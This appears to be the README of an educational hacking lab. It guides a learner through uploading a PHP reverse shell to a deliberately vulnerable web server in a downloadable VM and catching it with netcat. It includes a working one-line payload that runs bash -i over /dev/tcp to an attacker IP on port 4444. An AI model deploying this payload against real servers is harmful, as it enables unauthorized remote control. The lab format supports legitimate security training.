 # Reverse Shell on a Web Server

In this lab, you will practice using a **reverse shell** to remotely take control of a vulnerable server. Your mission is to identify a poorly secured form, upload a malicious file, and capture a flag hosted on the system. In this lab, you will learn:

- Detecting forms without type validation
- Uploading malicious files
- Executing a reverse shell in PHP
- Gaining remote control with `netcat`

<how-to-start>
   
## 🌱 How to Start This Lab

Follow these instructions to get started:

1. **Download the virtual machine** from this [link]().
2. **Import the machine** into your preferred virtualization manager (VirtualBox, VMware, etc.).
3. Once the machine is running, you can start the lab!

</how-to-start>

## 📄 Instructions

The server hosts a website developed in PHP, accessible via a browser, which contains a form that does not validate the type of uploaded files. Your task is to prepare a functional reverse shell and get the server to connect back to your machine.

1. **Explore the vulnerable website**: Access the machine's IP from your browser and locate the file upload form.

2. **Prepare your reverse shell in PHP**: Create a file named `shell.php` with the following content:

     ```php
     <?php
     exec("/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP/4444 0>&1'");
     ?>
     ```

   - Replace `YOUR_IP` with the IP of your attacking machine.

3. **Start a listener on your machine**

4. **Upload the reverse shell to the server**

5. **Activate the reverse connection**: Access the uploaded file through the browser. If everything is set up correctly, you will receive an interactive shell in your terminal.

**Remember:** You are in a controlled environment for educational purposes. Ethical knowledge is your best tool. Observe, explore, and learn to identify insecure configurations.

Happy hacking!
